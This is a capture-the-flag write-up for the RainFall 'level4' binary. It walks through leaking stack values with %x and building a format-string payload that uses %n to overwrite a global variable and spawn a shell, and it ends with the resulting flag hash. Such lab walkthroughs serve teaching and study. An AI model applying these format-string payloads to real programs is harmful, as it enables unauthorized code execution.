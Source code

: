 The binary reads user input, prints it with printf, and checks if the global variable m (at address 0x08049810) has a specific value (0x1025544 or 16930116 in decimal). If so, it spawns a shell.

We’ll use a format string vulnerability to write that value into the memory address of m.

1. Leak the stack with %x
To exploit the format string, we need to know where our input lands on the stack. We use %x to leak stack values and look for where our input string appears:

```
level4@RainFall:~$ python -c 'print "aaaa " + " %x" * 15' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit | ./level4
aaaa b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
We see 61616161 in the output — that's 'aaaa' in hex. It appears at the 12th position on the stack.
```

2. Understanding %n
printf()'s %n writes the number of bytes printed so far to the memory address provided as an argument.

We'll insert the address of m (0x08049810) into our input, then use a format string like %<number>d%12$n to print <number> bytes, causing the value <number> to be written to m.

3. Use %<number>d to pad the output
We want to write 16930116 (0x01025544) into the memory address 0x08049810.

We can use %16930116d to pad the output to 16930116 characters, then use %12$n to write that value to the address.

But we already wrote 4 bytes to insert the address of m at the beginning of the input — so we subtract 4: 16930116 - 4 = 16930112

4. Final payload

```
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit
cat /tmp/exploit | ./level4
.....
                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

```
